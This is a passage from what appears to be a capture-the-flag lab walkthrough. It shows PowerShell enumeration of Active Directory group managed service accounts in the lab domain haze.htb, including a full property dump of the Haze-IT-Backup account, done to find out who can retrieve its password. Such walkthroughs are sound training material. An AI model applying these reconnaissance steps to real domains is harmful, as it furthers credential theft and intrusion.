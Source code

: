 ```powershell
ProtectedFromAccidentalDeletion : False
SamAccountName                  : gMSA_Managers
sAMAccountType                  : 268435456
sDRightsEffective               : 0
SID                             : S-1-5-21-323145914-28650650-2368316563-1107
SIDHistory                      : {}
uSNChanged                      : 12948
uSNCreated                      : 12930
whenChanged                     : 3/4/2025 11:26:51 PM
whenCreated                     : 3/4/2025 11:24:29 PM
```

Used to confirm whether `mark.adams` is part of the group responsible for managing gMSAs.

Lists all gMSA accounts in the domain and shows their names and SAM account names

```powershell
Get-ADServiceAccount -Filter * | Select Name,SamAccountName

Name           SamAccountName
----           --------------
Haze-IT-Backup Haze-IT-Backup$
```

Used to discover available gMSAs in the domain — here, only `Haze-IT-Backup$` is present.

Retrieves all attributes of the gMSA 'Haze-IT-Backup', including who can retrieve its password

```powershell
Get-ADServiceAccount -Identity "Haze-IT-Backup" -Properties *

AccountExpirationDate                      :
accountExpires                             : 9223372036854775807
AccountLockoutTime                         :
AccountNotDelegated                        : False
AllowReversiblePasswordEncryption          : False
AuthenticationPolicy                       : {}
AuthenticationPolicySilo                   : {}
BadLogonCount                              : 0
badPasswordTime                            : 0
badPwdCount                                : 0
CannotChangePassword                       : False
CanonicalName                              : haze.htb/Managed Service Accounts/Haze-IT-Backup
Certificates                               : {}
CN                                         : Haze-IT-Backup
codePage                                   : 0
CompoundIdentitySupported                  : {False}
countryCode                                : 0
Created                                    : 3/5/2025 12:20:10 AM
createTimeStamp                            : 3/5/2025 12:20:10 AM
Deleted                                    :
Description                                :
DisplayName                                :
DistinguishedName                          : CN=Haze-IT-Backup,CN=Managed Service Accounts,DC=haze,DC=htb
DNSHostName                                : Haze-IT-Backup.haze.htb
DoesNotRequirePreAuth                      : False
dSCorePropagationData                      : {3/20/2025 2:05:52 PM, 3/20/2025 2:04:51 PM, 3/5/2025 8:04:23 PM, 3/5/2025 8:02:02 PM...}
Enabled                                    : True
HomedirRequired                            : False
HomePage                                   :
HostComputers                              : {}
instanceType                               : 4
isCriticalSystemObject                     : False
isDeleted                                  :
```